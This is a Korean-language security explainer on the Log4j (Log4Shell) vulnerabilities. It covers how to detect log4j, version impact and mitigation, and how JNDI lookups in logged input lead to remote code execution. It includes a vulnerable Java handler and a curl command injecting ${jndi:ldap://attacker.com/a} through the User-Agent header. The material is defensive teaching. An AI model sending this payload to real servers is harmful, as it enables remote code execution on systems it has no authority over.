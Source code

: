 

---

- log4j란?

: log4j의 기능은 웹 서비스 동작 과정에서 일어나는 모든 기록을 남겨 침해사고 발생 및 이상징후를 점검하기 위해 필수적으로 필요한 기능.  

무료로 제공되는 오픈소스 프로그램으로 Java 기반의 모든 어플리케이션에서 사용할 수 있습니다.

<br>

- log4j 주로 사용하는 서비스는? 
: 일반적인 웹 사이트, 쇼핑몰, 그룹웨어 등 JAva를 기반으로 한 JVM(Java Virtual Machine) 환경을 사용하는 모든 서비스에서 사용 가능

<br>

- log4j  사용하고 있는지 확인 하는 방법

```
linux

- dpkg -l | grep log4j
- find / -name 'log4j*'
```

```
windows

- window explorer의 검생 기능(log4j 검색)을 이용

```

```
Java Spring Framework Maven

log4j가 설치된 경로의 pom.xml 파일을 열어 "log4j-core"로 검색

```

![image](https://user-images.githubusercontent.com/62640332/159493244-9f2caebe-805e-43c8-84ad-9e99ca944501.png)

<br>

- log4j 1.X 버전 영향은?

: log4j 1.x 버전은 CVE-2021-44228, CVE-2021-45046 취약점에는 영향을 받지 않으나 CVE-2021-4104에 해당.

본 취약점은 `JMSAppender`를 사용하지 않는 경우 취약점의 영향은 없으나 , 1.x 버전은 이미 2015년 이후 업데이트가 종료되었으므로 보안 위협들에 노출될 가능성이 높습니다. 최신버전으로 업데이트 적용하기를 권고


<br>

- 버전에 따라 log4j 조치하는 방법 및 업데이트 불가능할 경우 대응 방법.

  - JAVA사용 버전에 따라 최신 LOG4j 버전으로 업데이트 수행

  - 즉시 업데이트가 어려운 경우 log4j 버전 따른 해결 방안 
    - CVE-2021-44228, CVE-2021-45046 : JndiLookup 클래스를 경로에서 제거
    
    \* zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

    \*  log4j-core JAR 파일 없이 log4j-api JAR파일만 사용하는 경우 취약점의 영향 받지 않음

    - CVE-2021-4104 : JMSAppender 사용 확인 후 코드 수정 또는 삭제




<br>

- 보안 업데이트 안되있을시 발생할수 있는것

: 원격의 공격자가 이 취약점을 이요하여 악성코드 유포, 중요 데이터 탕취, 임의의 파일 다운로드 및 실행 가능.


---

### ㅁ JNDI

: JNDI 는 Java Naming and Directory Interface의 약자로 클라이언트가 서버상의 데이터나 객체를 lookup 할 수 있는 Java API

찾고자 하는 객체에 접근 할 수 있는 단일의 인터페이스를 제공하며 이 API를 이용해서 객체를 lookup, querying 그리고 binding 할 수 있다.

예로 아래와 같은 소스코드가 실행이 가능하다 

```
DataSource ds = (DataSource) ctx.lookup("java:comp/env/jdbc/datasource");
assertNotNull(ds.getConnection());
```

![image](https://user-images.githubusercontent.com/62640332/160330119-327b75d5-d130-4ba2-8e00-6dd695e18650.png)

- Log4J 에서 JNDI 호출

특정 버전의 Log4J에서 JNDI를 포함한 쿼리를 호출하는 경우 내부적으로 객체를 lookup 하는 기능이 있었다.

특정 버전에서 Log4J 함수로 특정한 쿼리를 실행하면 JNDI를 실행한다. 그래서 단순한 로그만 출력해도 아래 그림처럼 시스템 내부의 특정 프로그램을 실행할 수 있게 된다.

아래 그림은 Log4J를 실행해서 원격 서버의 프로그램이 실행된 예다.

![image](https://user-images.githubusercontent.com/62640332/160330264-db894897-66c0-4101-be5b-cf2f948ac896.png)

그래도 출력하는 로그가 하드 코딩돼서 실행중에 바뀌지 않는다면 문제는 없다. 직접 로그 안에 JNDI를 심어두는 일은 거의 없을 거니까. 그런데 서버 프로그래밍을 하다 보면 사용자가 갖고 있는 정보나 URL의 파라미터를 출력하게 되는 경우도 종종 생긴다. 만약 해커가 로그를 출력하는 부분을 파악해 해당 api에 의도적으로 JNDI LDAP 정보를 심어 넣는다면 외부에서 코드를 실행할 수 있게 된다.

```
public class VulnerableLog4jExampleHandler implements HttpHandler { static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());
/** * A simple HTTP endpoint that reads the request's User Agent and logs it back.
* This is basically pseudo-code to explain the vulnerability, and not a full example.
* @param he HTTP Request Object */ 
public void handle(HttpExchange he) throws IOException { String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}

log.info("Request User Agent:{}", userAgent); ... } }
```

위의 코드를 보면 사용자의 user-agent 정보를 log.info 로 출력한다. 디버깅 용도로 이런 로그 한번 쯤은 찍어두게 했을 것이다. 그런데 만약 해커가 User-Agent를 이렇게 바꿨다고 해보자 

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```
그러면 User-Agent를 출력하는 코드가 영락 없이 JNDI를 호출하는 코드가 실행되고 해커의 서버에선(attacker.com) 우리의 서버와 JNDI를 통해서 내부 라이브러리를 실행할 수 있게 된다.

[출처]
1. kisa log4j 보안 취약점 가이드
2. https://selfish-developer.com/entry/log4j-%EC%9D%B4%EC%8A%88-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0
